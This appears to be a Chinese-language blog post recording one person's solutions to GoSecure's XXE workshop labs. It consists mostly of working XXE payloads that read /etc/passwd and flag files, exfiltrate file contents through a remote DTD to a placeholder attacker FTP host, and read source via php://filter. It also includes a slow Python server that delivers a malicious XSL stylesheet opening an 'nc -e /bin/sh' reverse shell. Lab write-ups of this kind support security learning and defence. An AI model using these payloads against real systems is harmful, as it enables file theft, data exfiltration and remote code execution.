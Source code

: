```yaml
---
layout: post
title:  Learning XXE with gosecure
subtitle: Gosecure的XXE环境学习记录
tags: [xxe,websec]
---
```


## LAB 1: Basic XXE
`./gradlew build` 没有反应，修改版本
21_rssviewer_xxe/gradle/wrapper/gradle-wrapper.properties
```
distributionUrl=https\://services.gradle.org/distributions/gradle-4.8.1-all.zip
```
重新build即可。

读取`/etc/passwd`
```xml
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<feed xmlns="http://www.w3.org/2005/Atom">
<generator uri="https://jekyllrb.com/" version="3.9.0">Jekyll</generator>
<link href="https://b.tcp.im/feed.xml" rel="self" type="application/atom+xml"/>
<link href="https://b.tcp.im/" rel="alternate" type="text/html"/>
<updated>2020-12-25T10:24:09+00:00</updated>
<id>https://b.tcp.im/feed.xml</id>
<title type="html">h4fan security</title>
<subtitle>web sec | bug bounty</subtitle>
<author>
<name>h4fan</name>
</author>
<entry>
<title type="html">Learning SSTI with gosecure</title>
<link href="https://b.tcp.im/2020/12/25/learning-ssti-with-gosecure.html" rel="alternate" type="text/html" title="Learning SSTI with gosecure"/>
<published>2020-12-25T00:00:00+00:00</published>
<updated>2020-12-25T00:00:00+00:00</updated>
<id>https://b.tcp.im/2020/12/25/learning-ssti-with-gosecure</id>
<content type="html" xml:base="https://b.tcp.im/2020/12/25/learning-ssti-with-gosecure.html">test &ent;</content>
<author>
<name>h4fan</name>
</author>
<category term="ssti"/>
<category term="websec"/>
</entry>
</feed>

```
当前环境可以列目录
```xml
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///"> ]>

<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///secret/"> ]>


<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///secret/flag.txt"> ]>
```

## LAB 2: Exfiltration with remote DTD


```xml
<?xml version="1.0"?>
<!DOCTYPE data [ 
<!ENTITY % dtd SYSTEM "http://your_remote_Ip:port/ext.dtd"> 
%dtd;]>
<data>&send;</data>
```
ext.dtd
列目录
```xml
<?xml version="1.0" encoding="UTF-8"?>
 <!ENTITY % file SYSTEM "file:///secret/">
<!ENTITY % all "<!ENTITY send SYSTEM 'ftp://your_remote_ftp_Ip:port/%file;'>"> %all;
```
查看文件
```xml
<?xml version="1.0" encoding="UTF-8"?>
 <!ENTITY % file SYSTEM "file:///secret/ijk/flag.txt">
<!ENTITY % all "<!ENTITY send SYSTEM 'ftp://your_remote_ftp_Ip:port/%file;'>"> %all;
```
[xxe-ftp-server](https://raw.githubusercontent.com/ONsec-Lab/scripts/master/xxe-ftp-server.rb)
注释第50行`#puts "> 230 more data please!"`，方便显示。测试username和password都会报错，文件处可以。

## LAB 3: Filter encoding
读文件，但是无法列目录，不支持netloc
```xml
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
```

```xml
<!DOCTYPE replace [<!ENTITY ent SYSTEM "php://filter/convert.base64-encode/resource=./.svn/wc.db"> ]>
```

```xml
<!DOCTYPE replace [<!ENTITY ent SYSTEM "php://filter/convert.base64-encode/resource=./test_dev.php"> ]>
```

```
/test_dev.php?func=system&val=id

/test_dev.php?func=system&val=cat%20/secret/flag_readme.txt
```

## LAB 4: Jar protocol
找密码admin:admin123456
```xml
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
```
刚开始理解错了意思，是通过jar读远程文件，利用连接一直不断，文件会被放到/tmp目录，没有立即被删除，之后遍历/tmp目录，再利用“包含”。
```xml
<!DOCTYPE replace [<!ENTITY ent SYSTEM "jar:http://your_remote_ip:port/!/test"> ]>
```
```xml
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///tmp/"> ]>
```
```
template=../../../../../../../../tmp/jar_cache8917878752595665871.tmp
```
slow_http_server.py
```python
from tornado.ioloop import IOLoop 
import tornado.web
import time

class MainHandler(tornado.web.RequestHandler):
	def get(self):
		with open("malicious.xsl","r") as file:
			self.write(file.read())
			self.flush()
			time.sleep(99999)
			self.finish()


if __name__ == "__main__":
	application = tornado.web.Application([
		(r'/', MainHandler)])
	port = 9999
	application.listen(port)
	print("Listening on port "+str(port))
	IOLoop.instance().start()

```
malicious.xml
```xml
<xsl:stylesheet version="1.0"
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:date="http://xml.apache.org/xalan/java/java.util.Date"
    xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
    xmlns:str="http://xml.apache.org/xalan/java/java.lang.String"
    exclude-result-prefixes="date">

  <xsl:output method="text"/>
  <xsl:template match="/">

   <xsl:variable name="cmd"><![CDATA[nc your_remote_ip port -e /bin/sh]]></xsl:variable>
   <xsl:variable name="rtObj" select="rt:getRuntime()"/>
   <xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
   <xsl:text>Process: </xsl:text><xsl:value-of select="$process"/>

  </xsl:template>
</xsl:stylesheet>
```

## LAB 5: Exfiltration with local DTD
遍历文件关键词
```
The content of elements must consist of well-formed character data or markup
```
```xml
<!DOCTYPE svg [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
<!ENTITY % expr 'aaa)><!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">&#x25;eval;&#x25;error;<!ELEMENT dummy(123 '>
    %local_dtd;
]>
```
```xml
<!DOCTYPE svg [
<!ENTITY % local_dtd SYSTEM "jar:file:///usr/local/tomcat/lib/tomcat-coyote.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd">
<!ENTITY % Boolean '(true) #IMPLIED><!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">&#x25;eval;&#x25;error;<!a  '>
    %local_dtd;
]>
```

* [Advanced XXE Exploitation](https://gosecure.github.io/xxe-workshop/#0)
* [xxe-injection-payload-list](https://github.com/payloadbox/xxe-injection-payload-list)
* [Automating local DTD discovery for XXE exploitation](https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/)
